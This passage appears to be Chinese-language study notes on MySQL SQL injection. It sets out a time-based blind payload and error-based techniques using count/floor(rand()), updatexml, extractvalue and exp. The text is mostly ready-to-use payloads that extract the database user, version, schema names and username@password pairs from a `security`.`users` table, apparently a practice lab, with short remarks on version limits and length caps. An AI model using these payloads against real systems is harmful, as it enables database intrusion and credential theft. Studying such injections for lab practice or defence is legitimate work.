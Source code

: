 ```sql
and if(ascii(substr((SELECT concat_ws('@',username,password) FROM `security`.`users` LIMIT 0,1),1,1))>53,sleep(10),0)--+
```

## 报错注入

```sql
count函数报错回显，当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。
count函数报错注入好像得mysql<5.7,这个方法有时候会报错,因为随机数重复,多试几遍几好了。还要注意列的长度
# count报错注入都是基于这句话的,可自己变形
union select count(*),1, concat((*payload*), floor(rand()*2)) as a from information_schema.tables group by a--+
# 查看用户
union select count(*),1, concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a--+
# 查询mysql的数据库
union select count(*),1, concat('~',(select database()),'~', floor(rand()*2))as a from information_schema.tables group by a--+
# 查询mysql的数据库版本
union select count(*),1, concat('~',(select version()),'~', floor(rand()*2))as a from information_schema.tables group by a--+

updatexml函数报错，高版本的mysql已经修复了该bug
# updatexml函数报错回显,都是基于这句话的,可自己变形
union select updatexml(1,concat(0x7e,(*payload*),0x7e),1)--+
# 获取用户名
union select updatexml(1,concat(0x7e,(select user()),0x7e),1)--+
# 获取当前数据库
union select updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
# 获取数据库
union select updatexml(1,concat(0x7e,(select  schema_name from information_schema.schemata limit 0,1),0x7e),1)--+
# 获取数据
union select updatexml(1,concat(0x7e,(SELECT concat_ws('@',username,password) FROM `security`.`users` LIMIT 0,1),0x7e),1)--+

extractvalue函数报错回显，注意字段的长度，不支持低版本 mysql
# extractvalue函数报错回显,都是基于这句话的,可自己变形
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(*payload*),'~'))--+
# 获取用户
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(select user()),'~'))--+
# 查看数据库名
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(select database()),'~'))--+
# 获取数据
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(SELECT concat_ws('@',username,password) FROM `security`.`users` LIMIT 0,1),'~'))--+

注意：extractvalue()函数，updatexml()函数能查询字符串的最大长度也是32，如果超过则也需要使用substring()函数截取，一次查看32位

Exp函数是以e为底的对数函数,exp()函数报错注入是一个Double型数据溢出
# exp函数报错回显,都是基于这句话的,可自己变形
union select 1,1,exp(~(select*from(*payload*)x))--+
# 获取用户
union select 1,1,exp(~(select*from(select user())x))--+
# 获取数据
union select 1,1,exp(~(select*from(SELECT concat_ws('@',username,password) FROM `security`.`users` LIMIT 0,1)x))--+

报错型输入还有很多函数可以利用，而且现在报错型注入用的并不多了，基本上都是盲注了。其中报错语句替换，最核心的还是concat函数
```
